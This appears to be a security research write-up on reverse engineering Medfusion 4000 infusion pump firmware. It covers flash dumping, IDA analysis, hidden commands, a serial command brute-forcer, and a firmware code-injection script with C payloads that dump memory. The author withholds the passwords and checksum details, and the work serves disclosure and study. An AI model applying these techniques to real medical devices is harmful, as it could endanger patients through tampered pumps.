Built:        Wed Feb 10 10:50:52 2010

Hardware Test: Battery,  Test Failure


Serial Number is           ********
Ethernet MAC Address is    ********
Radio MAC Address is       ********
Bootloader version is      1.0-27742

4000 Base Application Present
Loading Application 1 into SDRAM... Finished
Check Application 1 CRC... Finished
Exiting to Application file 1
Medfusion 4000 Built:  V1.1.2B
Version:1.1.2 Build:36755


Welcome to the Medfusion 4000 Configuration Interface

password:

(c)opyright 2004 Conexant
```

If we hit some keys during bootup, we get this message:

```
Enter password and press <ENTER> to start Command Line Interface ->
```

There appears to be some form of bootloader command line interface hidden behind another password. There is only a few seconds before the system boots into the main image, so this password would be challenging or even impossible to brute force depending on the complexity.

The serial port is a dead end for now.

### Dumping the Flash Contents

We are going to have to pull the chips off and dump the flash images manually as we have failed to recover them via a software mechanism. For this we'll need the following.

* Heat gun.
* Tweezers
* A chip reader/programmer.

Professional quality chip programmers are extremely expensive. There is a popular programmer developed in China called the MiniPro TL866 that you can purchase with a handful of socket adapters for around $100 from eBay or Amazon. This is well worth the cost as it happens to support both of our chips with the right adapters.

Removing the chips with a heat gun is easy (the hard part is soldering them back on). Heat the traces and then lift the chip off with tweezers. I started with the parallel NOR chip, thinking that would be used for running the OS image instead of the SPI chip.



This first guess was wrong as the parallel NOR contained the operating system internal filesystem image that we have access to over FTP and Telnet. Looks like the OS was on the other chip. I cleaned the traces, resoldered the NOR, and discovered that the system would no longer complete the boot process.



It's unclear if damage to the board occurred when heating it with the hot air gun, if traces were bridged, or if the flash chip was damaged. We do get a few hints about the processor running on the head/therapy module though, so it was not a complete waste of time. I utilized a backup unit for further analysis.

Next, I removed the SOIC chip from the now damaged board and read it. Sixteen SOIC pins are easier to remove and resolder than the parallel NOR. In retrospect, start with the easier to solder chip.



We now have the base firmware image.



If we run strings on the binary blob, we will see plenty of evidence that we now have the right image.

```bash
$ strings S25FL064P.BIN | grep RTCS
RTCS Create Failed
RTCS
RTCS Telnet server online.
RTCS v%d.%02d.%02d Telnet server
```

"MQX" and "RTCS" are even more evidence that we previously identified the correct [operating system](https://www.nxp.com/support/developer-resources/run-time-software/mqx-software-solutions/mqx-real-time-operating-system-rtos:MQXRTOS) the base is running.

## Firmware Analysis

Now that we have the firmware, the next step is to get the image loaded into [IDA Pro](https://www.hex-rays.com/products/ida/), a reverse engineering toolset that supports the Coldfire instruction set our operating system is compiled for. But before we open the image in IDA Pro, we should look at the file in a hex editor and see if we can determine any more technical details about the binary.

### Uncovering the File Header

```bash
$ hexdump -Cvn 128 S25FL064P.BIN
00000000  97 11 a9 5c 00 20 2b f0  00 00 00 01 4d 65 64 66  |...\. +.....Medf|
00000010  75 73 69 6f 6e 20 34 30  30 30 20 42 75 69 6c 74  |usion 4000 Built|
00000020  3a 20 20 56 31 2e 31 2e  32 42 00 00 00 00 00 00  |:  V1.1.2B......|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 31 2e 31 2e  |............1.1.|
00000060  32 00 00 00 00 00 00 00  33 36 37 35 35 00 00 00  |2.......36755...|
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|

```

Seeing the Medfusion string so close to the beginning of the file indicates that there may be a file header here that isn't loaded into memory on system startup. File headers are sometimes easy to guess. The first four bytes (`97 11 a9 5c`) are almost certainly some form of checksum as this value is too big to be a file size. `00 20 2b f0` is most likely the size of the actual file, `0x202BF0`, or 2108400 bytes long, as the processor is the best type of [endianness](https://en.wikipedia.org/wiki/Endianness) (big-endian). If we `hexdump` slightly before `0x202BF0` in the file, we can verify this.

```bash
$ hexdump -Cvn 64 -s 0x202BD0 S25FL064P.BIN
00202bd0  c2 4c 30 19 c2 5c 01 00  30 1e c2 80 30 40 00 00  |.L0..\..0...0@..|
00202be0  00 01 68 d8 00 00 00 00  00 00 00 00 00 00 00 00  |..h.............|
00202bf0  ff ff ff ff ff ff ff ff  ff ff ff ff ff ff ff ff  |................|
00202c00  ff ff ff ff ff ff ff ff  ff ff ff ff ff ff ff ff  |................|
```

We see repeated `0xff` values until the end of the 8MB range right after `0x00202bef`.

The next four bytes in the image probably contain a flag or an enum (`0x00000001`). After that, we get several ASCII version number strings. The values dramatically change at offset `0x80` where we start having non-printable and non-null data. The header is most likely a constant `0x80` bytes long, hence the actual firmware starting at `0x80`.

### Finding the Base Address and Entry Point(s)

We will now go through three different examples of how to find the base address of the image as well as potential entry points.

#### The 'c' Hotkey

If we open the binary in IDA Pro and specify the Processor Type as Coldfire, we'll load into IDA Pro with the image based at 0x0. It'll look something like the following:



IDA doesn't know where the entry point is in the binary or at what address the binary is loaded at, as there isn't any useful header data to parse and tell us. We'll have to find it manually.

We can move past the header and start forcing analysis on chunks of data via hitting the 'c' hotkey. This forces IDA Pro to interpret the binary under the cursor as instructions. This is a naïve way to figure out the base address/entry point(s) but happens to work quite well here. If we disassemble further down a bit, we will start seeing absolute references to the `0x3000XXXX` address space.

```Assembly
ROM:00001058                 link    a6,#0
ROM:0000105C                 subq.l  #8,sp
ROM:0000105E                 jsr     $30001348
ROM:00001064                 jsr     $30000AF0
ROM:0000106A                 jsr     $30000D00
ROM:00001070                 move.l  ($304168F8).l,(sp)
ROM:00001076                 jsr     $30001394
```

The code certainly looks valid and appears to be jumping to multiple subroutines near `0x3000XXXX`. The base address is probably `0x30000000`. Create a function here with hotkey 'p' then rebase the image via the Edit->Segments->Rebase Program (hotkey alt-esr) menu.

'

Now IDA can do a better job parsing relative offsets. After the rebase, the function at `0x00001058` looks like this:

```Assembly
ROM:3000105C sub_3000105C:
ROM:3000105C
ROM:3000105C var_4           = -4
ROM:3000105C
ROM:3000105C                 subq.l  #8,sp
ROM:3000105E                 jsr     sub_30001348
ROM:30001064                 jsr     loc_30000AF0
ROM:3000106A                 jsr     sub_30000D00
ROM:30001070                 move.l  ($304168F8).l,(sp)
ROM:30001076                 jsr     sub_30001394
```

IDA automatically started tracing down the paths of the various subroutines that now resolve to valid code segments in our binary.

A better example of why we need this base address is the following segment of code:

```Assembly
ROM:0000A9A2                      lea     ($300C276A).l,a0
ROM:0000A9A8                      move.l  a0,(sp)
ROM:0000A9AA                      jsr     $300B1CF0
ROM:0000A9B0                      lea     ($300C27A4).l,a0
ROM:0000A9B6                      move.l  a0,(sp)
ROM:0000A9B8                      jsr     $300B1CF0
ROM:0000A9BE                      lea     ($300C27E8).l,a0
ROM:0000A9C4                      move.l  a0,(sp)
ROM:0000A9C6                      jsr     $300B1CF0
```

The subroutine at `0x300B1CF0` is being called multiple times with different addresses that IDA can't resolve. `0x300B1CF0` happens to be `printf`. What does it look like after we rebase and name the function `printf`?

```Assembly
ROM:3000A9A2                      lea     (aTime_cfgDstT_0).l,a0 ; "\ttime_cfg dst <time_offset> <change_ti"...
ROM:3000A9A8                      move.l  a0,(sp)
ROM:3000A9AA                      jsr     printf
ROM:3000A9B0                      lea     (aStart_weekStar).l,a0 ; "\t         <start_week> <start_day_of_w"...
ROM:3000A9B6                      move.l  a0,(sp)
ROM:3000A9B8                      jsr     printf
ROM:3000A9BE                      lea     (aEnd_day_of_wee).l,a0 ; "\t         <end_day_of_week>\n"
ROM:3000A9C4                      move.l  a0,(sp)
ROM:3000A9C6                      jsr     printf
```

Now we know pointers to strings are being passed to `printf`.

#### basefind.py

We can grab the base address in another way via searching for the maximum intersection between each word in the binary interpreted as a pointer and offsets to all ASCII strings. I believe this was first done by [@mncopolla's](https://github.com/mncoppola) [`basefind.py`](https://github.com/mncoppola/ws30/blob/master/basefind.py). If we run his tool (after modifying it to read in data as big-endian instead of little-endian), we get the following results:

```
$ ../ws30/basefind.py medfusion4000-1.1.2.bin --page_size 0x10
Top 20 base address candidates:
0x2fffff80      3582
0x2ffe1d30      952
0x2fff37b0      894
0x2ffe89b0      893
0x2ffed6b0      845
0x2ffe4d10      793
0x2ffe0b90      787
```

`0x2fffff80` is the correct base address for this binary as it includes the 0x80 byte header. Unfortunately, `basefind.py` is rather slow and completing the entire scan with a page size of `0x10` would take around 91 days on my current processor. (I bounded the search in the above case then estimated the true runtime for the unbounded search.) It works much better on binaries without headers as you can dramatically increase the page size.

I'm working on a slightly faster version written in Rust with multithreading and more options. Let us try it again with [`rbasefind`](https://github.com/sgayou/rbasefind).

First, we would run it against the binary with default options. Here is a standard little-endian run that completes in under 2 minutes.

```bash
$ rbasefind medfusion4000-1.1.2.bin
Located 7275 strings
Located 150842 pointers
Scanning with 8 threads...
0x40126000: 99
0x40125000: 98
0x40123000: 97
0x4012a000: 96
0x40130000: 93
0x40121000: 93
0x40124000: 88
0x48129000: 87
0x40127000: 87
0x4012c000: 86
```

This presents us with roughly 100 matches at around `0x40XXXXXX`. Here is the big-endian run:

```bash
$ rbasefind medfusion4000-1.1.2.bin -b
Located 7275 strings
Located 150842 pointers
Scanning with 8 threads...
0x30000000: 292
0x2fffe000: 285
0x2ffff000: 244
0x2fffd000: 238
0x2fffc000: 238
0x30002000: 236
0x2fff3000: 233
0x30001000: 229
0x2fffb000: 227
0x2fff7000: 226
```

Three times as many matches found near a far more logical starting address is a good hint that we are working with big-endian, rather than little-endian. If we rebased the image with the header still attached to `0x30000000`, we would have something close, but not quite 100% correct. Some offsets would not resolve correctly and string references might be shifted or truncated,

We can then do a much longer scan using the -o option to specify the search offset. If we dial it down to 0x10, the search will take dramatically longer, so we need to increase the minimum string scanning size to reduce our search space. Setting it to 100 only tries to match very long ASCII strings and happens to work rather quickly in this case. (2 minutes again)

```
$ rbasefind medfusion4000-1.1.2.bin -b -m 100 -o 0x10
Located 47 strings
Located 150842 pointers
Scanning with 8 threads...
0x2fffff80: 20
0x66e38210: 13
0x5fe382d0: 13
0x66e382d0: 11
0x66e382c0: 11
0x66e38270: 11
0x66e381d0: 11
0x66e38140: 11
0x5fe382c0: 11
0x5fe38290: 11
```

We get the correct base address and match roughly 50% of the strings detected. Not bad. If we had previously stripped off the 0x80 byte header, the tool would give us the correct result of `0x30000000` as `0x2fffff80` + `0x80` = `0x30000000`.

This tool won't work on binaries that are dynamically loaded or are position independent. It is just a simple heuristic for flat firmware images and seems to work best on ARM binaries but also worked on a single Coldfire image.

#### Reading Documentation

If we bothered to read the [MCF5282 Coldfire Microcontroller's User Manual](https://www.nxp.com/docs/en/data-sheet/MCF5282UM.pdf), we would know that the [exception vector table](https://en.wikipedia.org/wiki/Interrupt_vector_table) for the MCF5282CVM66 processor looks like this:

|     Offset    |        Assignment         |
| ------------- | ------------------------- |
|      0x0      | Supervisor Stack Pointer  |
|      0x4      | Initial Program Counter   |
|      0x8      | Access Error              |
|      0xC      | Address Error             |
|      ...      |            ...            |
|     0x3FC     | Device Specific           |

We have seen this before. If we go back to the start of our image, we have this:

```
ROM:00000000 2000 FFF0           dword_0:        dc.l $2000FFF0          ; DATA XREF: sub_656FC+4C↓o
ROM:00000000                                                             ; sub_72348+36↓o
ROM:00000004 3000 0418                           dc.l $30000418
ROM:00000008 3000 046C                           dc.l $3000046C
ROM:0000000C 3000 046C                           dc.l $3000046C
ROM:00000010 3000 046C                           dc.l $3000046C
ROM:00000014 3000 046C                           dc.l $3000046C
...
ROM:000003FC 3000 046C                           dc.l $3000046C
```

Several addresses followed by a large number of the same address. A table of 255 pointers. This is the exception vector table and every other assignment aside from the stack pointer and initial PC are tied to a reset function that loops forever and triggers a watchdog. We can now guess that the bootloader transfers execution to `0x30000418`. Oftentimes exception vectors are easy to spot in embedded firmware images.

This allows us to assume that the image is based at or around `0x30000000`.

### Reverse Engineering the Image

The next step is quite nebulous &mdash; explore the image in IDA and look for anything technically relevant. It helps to start by identifying obvious functions. A good first step is the standard print function &mdash; look for cross-references to strings with format characters then find the most common subroutine that takes the string as a parameter. It helps to know a bit of C here. If you are looking for socket functions, search for unique port numbers and you may be able to get close to socket creation and binding code.

It will certainly help to have the operating system manual (assuming it is available). You can find the MQX manual [here](https://www.nxp.com/docs/en/user-guide/MQX_User_Guide.pdf).

I would recommend trying to find basic string operations, memory IO, task creation/destruction, and stdio related functionality before continuing, or else you'll drown in a sea of uncertainty and IDA `sub_` prefixes.

#### Finding Hidden Commands

The first thing I checked for was the existence of hidden commands, as I was hoping to discover a peek/poke operation. How do we do this?

First, find the code handling existing commands. A quick way to do this is search for a string being printed when we type a command in the CLI. As an example, we know that `mds show` should be a string somewhere in the binary. View the strings in IDA, search for `mds show`, then navigate to the code that references the string. This will reveal a function that is the MDS command handler. It takes in parameters, prints error messages if the format is wrong, and does conditional checks on if arguments are missing or not. If we look for all cross references to this command handler, we will encounter a table of command function pointers or other CLI processing code that will point us to the other commands. We could also just run strings on the binary and try running anything that looks like a command, but that could prove time consuming.

The only cross reference to the `mds` function takes us here:

```Assembly
lea     (aMedicalDeviceS).l,a0 ; "Medical Device Server configuration"
move.l  a0,$12+var_A(sp)
lea     (mds).l,a0
move.l  a0,$12+var_12(sp)
lea     (aMds).l,a0     ; "mds"
move.l  a0,(sp)
jsr     install_command_handler
lea     (aTelnetConfigur).l,a0 ; "Telnet configuration"
move.l  a0,$12+var_A(sp)
lea     (telnet_cfg).l,a0
move.l  a0,$12+var_12(sp)
lea     (aTelnet_cfg).l,a0 ; "telnet_cfg"
move.l  a0,(sp)
```

There are several commands being installed through a function I named `install_command_handler`. If we navigate to cross references of `install_command_handler`, we will start seeing commands that weren't visible when we typed `help`.



Will these commands work?

```
4000> enable_debug
enable_debug usage
         enable_debug <module name> <level>
```

They are enabled. `enable_debug` turns on many highly useful debugging messages that get printed over the serial port.

Quite a few hidden commands were discovered: from printing out the task list to sending some form of test messages to the head/therapy module. None of them lead to any form of code execution although auditing each of these commands fully would require a substantial investment in time. Ultimately, `enable_debug` proved to be very helpful with dynamic analysis.

### Backdoor Passwords

I spent approximately 100 hours exploring and documenting features in the operating system. It is slow work when starting with raw binary, but the process speeds up as additional symbols are uncovered and named.

Eventually, as I was searching through the string table looking for suspect entries, I found a command that printed out a hidden command line option for one of the commands I already investigated. I reverse engineered it and discovered that it was only enabling this hidden command if a system flag was set. I looked for cross references to the flag location and discovered a subroutine that set the flag. This subroutine was near a string table that contained multiple entries that looked like passwords.

I immediately tried out both of the passwords and discovered that they both worked via serial and Telnet. These passwords cannot be disabled and bypass the user-defined password entirely. One password enables additional functionality (the flag previously mentioned) that allows for factory specific operations.

### Recovering the Bootloader Password

Additional investigation resulted in the discovery of the bootloader password. This information will not be revealed.

## Back to the Bootloader

What does the bootloader CLI have to offer?

```
=======================================================
===========  Booting Informatics 4000 Base  ===========

Version:      1.0
Build Number: 27742
Built:        Wed Feb 10 10:50:52 2010


Enter password and press <ENTER> to start Command Line Interface ->
>
> help
Available Console Commands

load                           Load Application into RAM or Flash
show                           Show Configuration
set                            Set Configuration
run                            Run Application
exit                           Exit Bootloader
help                           Display this Message
```

`load`, `show`, `set`, and `run` all look interesting.

`show` prints out the header of the various images stored in flash memory.

```
> show app header
0x00000000  32 81 76 C3 00 21 19 18 00 00 00 01 4D 65 64 66    2.v..!......Medf
0x00000010  75 73 69 6F 6E 20 34 30 30 30 20 42 75 69 6C 74    usion.4000.Built
0x00000020  3A 20 20 56 31 2E 35 2E 30 00 00 00 00 00 00 00    :..V1.5.0.......
```

It appears two operating system images can coexist as we can dump out the 1.1.2 and 1.5.0 image headers. Unfortunately, there does not appear to be a way to dump the entire image over serial via `show`. We can `show` a few other configuration registers, but this does not unveil anything useful. At this point I just had the 1.1.2 image and still wanted to recover the 1.5.0 image without desoldering any additional chips as I was on my last unit.

`load` allows us to flash down a new image or load it right into RAM.

```
> load
load Argument Usage: 'load' <type> <name> <location>
<type>: 'app' or 'test'
        'app' saves the file to the flash
        'test' loads the file to ram
<name>: the name of the file on the TFTP server
<location>: '1' or '2' or no argument
        '1' or '2' loads the selected file
        'no argument loads the active file.
'test' does not use the <location> argument.
```

`run` executes the image we just loaded.

```
> run
run Argument Usage: 'run' <type> <location>
<type>: 'app' or 'test' or 'hdwrtest'
'app' loads and runs the file from flash
'test' runs the file already loaded into ram
'hdwrtest' runs the a short hardware test
<location>: '1' or '2' or no argument
        '1' or '2' loads and runs the specified file
        no argument loads and runs the fileNumber file.
        'test' or 'hdwrtest' types do not use this argument.
WARNING! Control to console will not return if an application is run.
```

The next step is to try to run the image we recovered from the flash chip. We know the file size from the header so we should be able to strip it down the correct size. The checksums are correct else the system would most likely not boot it in the first place.

We can do exactly that and run the extracted firmware via the `load` and `run` commands. The `load` command starts up a TFTP client and pulls down an image from a specific TFTP server. As long as we are on the same network segment as the device, we can act as the TFTP server.

```
> load test code.small

Ethernet interface initialized
Network interface is bound to 192.168.100.150 [MANUAL]
Downloading file code.small ...Finished
Verifying file code.small validity ...Finished
Saving file code.small to SDRAM ...Finished
```

Thus, if we can locate and compute the correct checksums on an image and the firmware is not signed or verified, we can inject code into the image and reflash the infusion pump's base operating system. This leads to physical access code execution on the base.

We will now explore the possible existence of additional bootloader commands. We know there are hidden main OS commands, so it is possible the bootloader has some as well. We do not have access to the bootloader image yet, so we will write a quick [Python script](../src/bootloader_command_fuzz.py) to try to brute force new commands. Serial is rather slow, so we can only feasibly try to check ASCII strings up to four or five characters.

```python
#!/usr/bin/python3
import serial
import itertools
import string
import time

prompt_str = b'\r\n> \n> '
invalid_str = b'Invalid Command\r\n> \n> '

with serial.Serial('/dev/ttyUSB0', 115200, timeout=None) as ser:
    ser.write(b'\r\n')
    ser.read(len(prompt_str))

    for cmdlen in range(1, 9):
        print("Testing command length: " + str(cmdlen))
        for cmd in itertools.product(string.ascii_lowercase, repeat=cmdlen):
            print(''.join(cmd) + "\r", end='')
            cmd_str = (''.join(cmd) + "\r\n").encode('utf8')
            ser.write(cmd_str)
            out = ser.read(len(cmd_str) + len(invalid_str))
            if "Invalid Command" not in out.decode('utf8'):
                print("Command found: " + ''.join(cmd))
                time.sleep(2)
                ser.reset_input_buffer()
                ser.write(b'\r\n')
                ser.read(len(prompt_str))
```

While this works well and discovers the commands we already know about, we find nothing hidden after running for 24 hours. Either the commands include special characters, are longer than 5 characters, or are non-existent.

## Reverse Engineering the Firmware Checksums

This information will not be revealed.

## Code Injection

Now that we can modify images, we need a way to inject our own code into the firmware. We will need a Coldfire compiler, a location to write new code to, and something useful to do once we have code execution.

Compilation in this case is easy. m68k-linux-gnu-gcc on Linux can compile our code and supports the 5282 via a special flag.

```bash
$ m68k-linux-gnu-gcc code.c -mcpu=5282
```

A simple `Makefile` that injects code compiled from a C program is as follows:

```makefile
all:
        m68k-linux-gnu-gcc code.c -mcpu=5282 -nostartfiles -Wl,-Ttext=<TARGET_ADDRESS> -Wall
        m68k-linux-gnu-objcopy --only-section=.text --only-section=.rodata --output-target binary a.out code.bin
        m68k-linux-gnu-objdump -d a.out
        ./inject.py medfusion4000-1.1.2.bin code.bin mod.bin
clean:
        rm a.out code.bin mod.bin
```

Most of it is relatively straightforward if you look up the flags. We cannot just inject an ELF file into the image so we have to use `objcopy` to output the raw code.

We need to write a quick C program that doesn't rely on any external libraries or dynamic linking. Here is a "Hello World" program for our Coldfire system.

```C
#define printf 0x300B1CF0

void _start() { ((int (*)())printf)("Code injected!"); }
```

We have to specify the absolute address of `printf` as the linker doesn't know the addresses of symbols for this platform.

The last major hurdle involves where we can store the code. The easiest way to do this and get a quick proof of concept code injection going is to overwrite one of the existing CLI handlers. I chose the `iwconfig` function as it is quite large (`0x926` bytes long) and does not appear to be used by any other parts of the system. We can now inject code from `0x31005510` to `0x31005E36` and trigger it by connecting over Telnet or serial and typing `iwconfig`.

The `Makefile` above mentions [`inject.py`](../src/firmware_modification/inject.py) as the final step. What is `inject.py`?

```python
#!/usr/bin/python3
import argparse
import binascii
import os
import struct
import sys

parser = argparse.ArgumentParser()
parser.add_argument("firmware", help="Firmware file name")
parser.add_argument("code", help="Code to inject into firmware file name")
parser.add_argument("output", help="Injected firmware output file name.")
parser.add_argument('--address',type=lambda x: int(x,0),
                    default=0x31005510, help="Address to overwrite in firmware. (Default: 0x31005510)")
args = parser.parse_args()

with open(args.firmware, 'rb') as file:
    firmware_buf = bytearray(file.read())

with open(args.code, 'rb') as file:
    code_buf = bytearray(file.read())

# Sanity check address. Subtract the base offset and add the 0x80 byte header.
target_address = (args.address - 0x30000000) + 0x80
if target_address < 0 or target_address > len(firmware_buf) - len(code_buf):
    print("ERROR: Address out of range.")
    sys.exit(1)

# Inject our code.
for idx, byte in enumerate(code_buf):
    firmware_buf[target_address + idx] = byte

# Recompute Header

with open(args.output, 'wb') as file:
    file.write(firmware_buf)
```

`inject.py` injects our code into the image at the hardcoded address we previously specified. It then recomputes the header and outputs a custom image that can be loaded over TFTP and executed.

The build output for the above process looks like this:

```
$ make
m68k-linux-gnu-gcc code.c -mcpu=5282 -nostartfiles -Wl,-Ttext=0x31005510 -Wall
m68k-linux-gnu-objcopy --only-section=.text --only-section=.rodata --output-target binary a.out code.bin
m68k-linux-gnu-objdump -d a.out

a.out:     file format elf32-m68k


Disassembly of section .text:

31005510 <_start>:
31005510:       4e56 0000       linkw %fp,#0
31005514:       4879 3100 5528  pea 31005528
3100551a:       4eb9 310B 1CF0  jsr 310B1CF0
31005520:       588f            addql #4,%sp
31005522:       4e71            nop
31005524:       4e5e            unlk %fp
31005526:       4e75            rts
./inject.py medfusion4000-1.1.2.bin code.bin mod.bin
```

We can verify this works by disassembling the new firmware image and looking for our binary patch at `0x31005510`.

```Assembly
; =============== S U B R O U T I N E =======================================

; Attributes: bp-based frame

iwconfig:
                link    a6,#0
                pea     (aCodeInjected).l ; "Code injected!"
                jsr     printf
                addq.l  #4,sp
                nop
                unlk    a6
                rts
; End of function iwconfig

; ---------------------------------------------------------------------------
aCodeInjected:  dc.b 'Code injected!',0 ; DATA XREF: iwconfig+4↑o
                dc.b   2
; ---------------------------------------------------------------------------
                beq.w   loc_310057A0
                cmpi.l  #2,d6
                ble.w   loc_31005E1A
                lea     (aEth0).l,a0    ; "eth0"
```

Above we see that our code now overlays the existing `iwconfig` fuction. It loads a pointer to the string, calls printf, then returns.

## Base Code Execution

The next step is to run the new binary.

```
4000> iwconfig
Code injected!
```

We now have code execution on the system. This is an ideal starting point for writing tools to start dynamically analyzing the image. But first, let us start by dumping memory and looking for the bootloader, which may still be mapped into memory. What is at address 0x0?

### Dumping the Bootloader

We will inject a simple program that will write memory to `stdout`.

```C
#define printf ((int (*)())0x300B1CF0)

void _start() {
  printf("Dumping bl:\n");

  for (int j = 0x0; j < 0x80000; j += 0x1) {
    printf("%02x ", *((unsigned char *)j));
  }

  printf("\nImage dumped.");
}
```

If we run this, we can recover the complete bootloader. It is a headerless Coldfire image that starts with the exception vector table we saw before.



We can reverse engineer it in the same way as the base firmware image. Unfortunately, there are not any hidden commands. I was trying to discover a way to dump the entire second operating system off without desoldering another chip on my backup device. I eventually (mostly) solved that problem by calling the same flash mapping function used by the bootloader to load the images into RAM during the boot sequence. That function allowed me to recover a slightly (3% or so) corrupted image which enabled me to extract a few pointers I needed to test on 1.5.0.

```C
unsigned char buffer[0x200];
printf("Trying to map SPI.\n");
// unknown, starting address on chip, buffer, buffer size
printf("Fill a0 returned: %d\n", fill_a0());
map_spi(fill_a0(), 0x3C0000, &buffer, 0x200);
for (int i = 0; i < 0x200; i++) {
  printf("%02x ", buffer[i]);
}
printf("\nDone?\n");
```

### Writing our own Bootloader

